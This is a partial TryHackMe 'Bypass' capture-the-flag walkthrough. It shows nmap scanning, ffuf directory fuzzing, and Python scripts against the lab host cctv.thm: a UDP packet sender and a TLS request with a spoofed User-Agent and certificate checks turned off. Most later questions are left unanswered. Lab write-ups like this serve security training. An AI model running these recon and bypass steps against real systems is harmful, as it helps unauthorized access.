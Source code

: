 # Bypass

**Room Link:** [https://tryhackme.com/r/room/bypass](https://tryhackme.com/r/room/bypass)



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=1?

**Kali**

```
nmap -A cctv.thm
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u https://cctv.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I first tried using knock but it wasn't working, probably because it's not actually sending a message.

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock cctv.thm 5000:udp -v
```

**knock.py**

```
import socket

port = 5000
host = 'cctv.thm'
msg = 'Knock,Knock...TheSysRat is here!'.encode()

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.bind(('', 5000))
    s.sendto(msg, (host, port))
    s.close()
    print('Packet send correctly')
except:
    print('Something wrong')
```

**Kali**

```
python knock.py 
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=2?

**knock.py**

```
import socket
import ssl

# Target server and port
host = "cctv.thm"
port = 443  # HTTPS port for TCP request

# Target path
path = "/fpassword.php?id=2"

# Custom headers with User-Agent
request = f"GET {path} HTTP/1.1\r\n" \
          f"Host: {host}\r\n" \
          f"User-Agent: I am Steve Friend\r\n" \
          f"Connection: close\r\n\r\n"

# Create an SSL context that ignores certificate verification
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

# Create a TCP socket and wrap it in SSL
with socket.create_connection((host, port)) as sock:
    with context.wrap_socket(sock, server_hostname=host) as ssock:
        # Send the request
        ssock.sendall(request.encode())

        # Receive the response
        response = b""
        while True:
            data = ssock.recv(4096)
            if not data:
                break
            response += data

# Decode and print the response to get the flag
print(response.decode())

```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=3?



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=4?



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=5?



What is the password value for the first layer of security for the CCTV web panel?



What is the lsb\_release -r -s command output from the attached machine?



What is the username for the CCTV web panel?



What is the flag value after logging into the CCTV web panel?



